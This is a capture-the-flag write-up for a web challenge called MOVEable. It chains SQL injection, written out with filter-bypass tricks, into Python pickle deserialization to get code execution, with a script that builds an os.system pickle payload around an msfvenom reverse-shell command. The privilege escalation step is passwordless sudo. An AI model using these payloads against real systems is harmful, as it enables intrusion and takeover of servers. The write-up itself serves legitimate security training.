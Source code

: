 # MOVEable

Difficaulty: `Medium`  
Author: `@JohnHammond`  
Category: `Web`  
Points: `376`

## Description

Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.

**Attachments:** [app.zip](./attachments/app.zip)

## Solution

Luckily, we have the source code of this challenge. so, we can try to exploring the source code to find if there is any vulnerability.

### Enumeration

For this challenge, I found **2** vulnerabilities in the source code.

1. **SQL Injection**  
   We can see that there is a SQL Injection vulnerability located in **login route**.

   ```python
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
   ```

2. **Remote Code Execution**  
   We can see that code using [pickle.load](https://docs.python.org/3/library/pickle.html) to unpack the data which is
   vulnerable to execute arbitrary code during unpacking. located in **download route**

   ```python
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
   ```

With this information, we know that we can exploit following this steps:

1. Inject malicious SQL statement includes:  
   To create fake active session

   ```
   \;INSERT/**/INTO/**/activesessions/**/VALUES/**/(\foo\,\foo\,\foo\);--
   ```

   To insert reverse shell payload to database

   ```
   \;INSERT/**/INTO/**/files/**/VALUES/**/(\payload\,\<data>\,\foo\);--
   ```

2. Request **GET /downloads/payload/foo** to invoke `pickle.load` function and the payload will be executed.
3. Get reverse shell connection and escalate privilege to get the flag.

**_Input Filter Bypass Breakdown_**

`/**/` used instead of whitespace.  
`\` used to escape the single quote.

### Prepare the payload

Script used to create pickle payload  
Ref: [
Exploiting Python pickles ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

```python
import os
import pickle
import base64

# Using msfvenom to generate reverse shell payload
# msfvenom -p cmd/unix/reverse_python LHOST=<host> LPORT=<port> R
command = "python3 -c \"exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('<reverse_shell_payload>')[0])))\""

class rce(object):
    def __reduce__(self):
        return (os.system, (command,))

print(base64.b64encode(pickle.dumps(rce())))
```

### Exploit

From our enumeration and payload preparation, we will start exploit with steps that I have mentioned.

Perform SQL Injection to create fake active session and create malicious file in database.

![Burp](./images/burp.png)

Setup reverse shell listener.

![Listener](./images/listener.png)

Execute pickle.load by request **GET /downloads/payload/foo**

![Execute](./images/execute.png)

Reverse shell listener catched the connection. To perform privilege escalation, we can perform privilege escalation by simply try to run `sudo -l` to see if we can run any command as root.  
In this case, current user is in sudoers list and can run any command as root via `sudo` without password.

![Solved](./images/solved.png)

## Flag

```txt
flag{ac53cd7aa8a2d1b2340a6eb4a356709e}
```
